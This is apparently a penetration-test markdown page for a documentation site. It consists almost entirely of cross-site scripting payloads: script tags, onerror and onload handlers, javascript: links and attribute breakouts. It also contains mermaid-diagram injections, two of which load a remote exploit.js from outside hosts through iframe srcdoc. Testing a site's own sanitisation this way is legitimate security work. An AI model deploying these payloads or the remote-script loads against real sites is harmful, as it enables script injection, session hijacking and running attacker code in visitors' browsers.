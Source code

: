 # injection

pentest

<script>alert('XSS');</script>

![Broken Image](invalid.jpg ':size=250' )
<img src="invalid.jpg" onerror="alert('XSS')">

<svg onload="alert('XSS')"></svg>

<img src="valid-image.jpg" alt="test" title="XSS" onerror=alert('XSS')>

<img src="valid-image.jpg" alt="test" title="><script>alert('XSS')</script>">

<iframe src="javascript:alert('XSS');"></iframe>

[Click Me](javascript:alert('XSS'))

[malicious link](something"onmouseover="alert('XSS'))


## XSS Test
 ```mermaid
  graph LR
      B-->D(<img onerror=location=`javascript\u003aalert\u0028document.domain\u0029` src=x>);
 ```

## XSS Test 2
```mermaid  
%%{init: {"flowchart": {"htmlLabels": "false"}} }%%  
flowchart  
  A["<iframe srcdoc='<script src=https://gitlab.com/api/v4/projects/saleemrashid%2Fmermaid-exploit-7032e404/jobs/1303935016/artifacts/exploit.js></script>'></iframe>"]  
```

## XSS Test 3
```mermaid  
%%{init: {"flowchart": {"htmlLabels": "false"}} }%%  
flowchart  
  A["<iframe srcdoc='<script src=https://stg.docs.developer.tech.gov.sg/docs/injection/exploit.js></script>'></iframe>"]  
```

## iFrames Test

<figure>
<iframe width="425" height="350" frameborder="0" scrolling="no" marginheight="0" marginwidth="0" src="https://i.ytimg.com/vi/-IXqbuMOwYg/hq720.jpg?sqp=-oaymwEcCNAFEJQDSFXyq4qpAw4IARUAAIhCGAFwAcABBg==&rs=AOn4CLDmcWpHub9FsBmp6vQgQTz0sWK14Q" style="border: 1px solid black"></iframe>
</figure>

<figure>
<iframe width="560" height="315" src="https://www.youtube.com/embed/-IXqbuMOwYg" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>
</figure>
